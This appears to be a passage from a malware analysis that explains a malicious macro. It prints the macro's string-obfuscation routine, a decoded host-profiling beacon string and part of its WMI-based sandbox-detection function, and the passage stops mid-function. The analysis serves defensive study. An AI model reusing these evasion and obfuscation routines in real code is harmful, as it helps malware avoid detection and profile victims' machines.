 

Then, it obfuscates further by replacing a bunch of characters with
punctuation:



        Str = Replace(Str, "A", ":")
        Str = Replace(Str, "a", "~")
        Str = Replace(Str, "B", "%")
        Str = Replace(Str, "b", "*")
        Str = Replace(Str, "C", "{")
        Str = Replace(Str, "c", "-")
        Str = Replace(Str, "D", "}")
        Str = Replace(Str, "1", "]")
        Str = Replace(Str, "2", "[")
        Str = Replace(Str, "3", "$")
        Str = Replace(Str, "=", "&")
        BuildQuery = Str



On my test host, that came out as:



    dT][YWdyYW50JmQ9V09SS0dST]VQJmlzQT]U-nVlJm9]d}]GYWxzZSZhdj]N~WNy*$NvZnQgU[VjdXJpdHkgRXNzZW50~WFs-y]E~XNhYmxlZ{smUHJveHk9LT:&

    $ echo 'dT][YWdyYW50JmQ9V09SS0dST]VQJmlzQT]U-nVlJm9]d}]GYWxzZSZhdj]N~WNy*$NvZnQgU[VjdXJpdHkgRXNzZW50~WFs-y]E~XNhYmxlZ{smUHJveHk9LT:&' | tr ':~%*{-}][$&' 'AaBbCcD123=' | base64 -D
    u=vagrant&d=WORKGROUP&isA=Tue&out=False&av=Microsoft Security Essential-Disabled+&Proxy=-0~



#### SandBox

The `SandBox` function is interesting as well. It starts with a `score`
variable set to 0, performs a series of tests, each one potentially
incrementing `score` by 1 or 2, and then returns true is `score` is
greater than 2.

The tests are:

-   If the computer is part of a domain, and the computer name is the
    same as the domain name, score += 2
-   If the number of cores \< 2, score += 1
-   If the system up time is less than 11 minutes, score += 2
-   If the size of the hard drive is less than 15 GB, score += 2
-   If the amount of filled space on the hard drive (size of the
    harddrive minus the free space) is less than 15 GB, score += 1

Here's the sandbox detection code in it's entirety:



    Function SandBox()

        Dim score, aaaaaa, bbbbbb, cccccc, dddddd, eeeeee, fffffff
        aaaaaa = "winmgmts:\\.\root\cimv2"
        bbbbbb = "SeleCt * from Win32_ComputerSystem"
        cccccc = "WinNTSystemInfo"
        dddddd = "SELeCT * FROM Win32_Processor"
        eeeeee = "SeleCt * From Win32_PerfFormattedData_PerfOS_System"
        fffffff = "Win32_LogicalDisk.DeviceID='c:'"
        score = 0
        Dim objWMISvc
        Set objWMISvc = GetObject(aaaaaa)
        Dim colItemsDisk
        Dim colItems
        Set colItems = objWMISvc.ExecQuery(bbbbbb)
        Dim objSysInfo
        Set objSysInfo = CreateObject(cccccc)
